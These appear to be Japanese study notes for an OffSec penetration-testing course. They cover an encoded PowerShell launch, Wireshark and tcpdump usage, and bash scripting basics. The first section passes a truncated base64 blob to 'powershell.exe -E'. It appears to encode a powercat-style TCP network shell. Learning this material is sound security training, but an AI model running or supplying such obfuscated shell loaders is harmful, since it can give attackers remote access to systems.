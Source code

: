 このファイル内の文字列をコピーして、PowerShellの-Eオプション渡すことで実行できる。

```
PS C:\Users\offsec> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFM AZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzA CkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQB yAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYgBhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAb wBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAAIAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAo AIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByA HMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBlAAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIAB OAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAc ABDAGwAaQBlAG4AdAAKACAAIAAgACA
```



## Wireshark
ネットワークプロトコルアナライザー。    
ipアドレスやプロトコルでのフィルターを活用して調査を行う。  
また、Following TCP Streamsを活用することで、特定のセッションを再構成して表示することができる。FTPのようなクリアテキストのプロトコルの場合、送受信したコマンドや出力を見ることができる。


## Tcpdump
```
kali@kali:~~~$~~ sudo tcpdump -r password_cracking_filtered.pcap
```

|  オプション  |  意味  |
| ---- | ---- |
|  -r  |  ファイルを開く  |
|  -n  |  DNS名の検索をスキップ  |
|  src host |  送信元ホストの指定  |
|  dst host |  宛先ホストの指定  |
|  -X  |  このオプションを使うことでパケットデータをHEXとASCIIのフォーマットで出力  |

# Bash Scripting
## ユーザーの入力
```
#ユーザーの入力を変数に入れる
read username
#-pはプロンプトを指定
read -p 'Username: ' username
#-sはユーザーの入力を表示しない(パスワードの入力などに最適)
read -sp 'Password: ' password
```

## if文
```
#!/bin/bash
# if statement example

read -p "What is your age: " age
if [ $age -lt  16 ]
then
    echo "You might need parental permission to take this course!"
fi
```
[ ]はtestコマンドを呼び出して判定してるだけなので、下記のような表記でも動作する。
```
#!/bin/bash
```